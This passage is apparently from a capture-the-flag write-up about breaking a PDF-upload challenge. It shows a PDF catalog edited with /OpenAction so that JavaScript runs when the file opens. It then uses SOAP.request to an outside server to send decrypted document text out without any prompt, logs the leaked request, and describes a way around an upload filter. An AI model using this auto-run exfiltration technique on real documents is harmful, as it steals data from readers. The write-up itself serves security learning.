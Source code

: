 to

```  
<< /PageLayout /OneColumn /Pages 4 0 R /Type /Catalog /OpenAction << /JS 10 0
R /S /JavaScript >> >>  
```

The added `/OpenAction` specifies we want to execute JavaScript code from the
10th object upon opening the document.

Now that we can execute our code, we need an exfiltration method. Existing
research describes a few possible exfiltration  
methods. Preferably we'd want a 0-click way to send a network request and
after testing several approaches we find that  
we can use `SOAP.request('http://server/', [])` to send an HTTP request
without triggering any warnings or dialogs in the  
application.

We've submitted the PDF with these changes, and, voilà, soon we've noticed an
incoming HTTP request. Great.

So how do we exfiltrate data from the now decrypted 5th stream? Again, there
are several documented approaches.  
At first, we've used the simplest and pure-JavaScript method using the
`getPageNthWord()` function. We've got the  
following request:

```  
GET
/Patient,Details,Name,Alfonso,Manfreso,DOB,03,15,1959,Gender,M,Patient,ID,15646548,Results,to,the,COVID,test,INS,PDF,NCrypt,0n,BYp,ss,Thr0uGh,D,r3ct,3xf1ltRat1oN?WSDL
HTTP/1.1  
```

We kinda see the flag there:
`INS,PDF,NCrypt,0n,BYp,ss,Thr0uGh,D,r3ct,3xf1ltRat1oN`, but it's missing all
of special  
characters. We've tried to figure them out, but resigned after a few failed
submissions.

We can't directly access streams from the JavaScript API, but we can define
two types of objects: annotations and embedded files that:  
- can be accessed from the JavaScript API,  
- their contents can be pointed to another stream.

First we tried annotations, but we found that the upload form blocked all PDFs
with the needed parameter keyword `/Annots`.  
So we were left with embedded files. Once again we can add their definitions
to the catalog.

We change it from the previously modified version of:  
```  
<< /PageLayout /OneColumn /Pages 4 0 R /Type /Catalog /OpenAction << /JS 10 0
R /S /JavaScript >> >>  
```

to
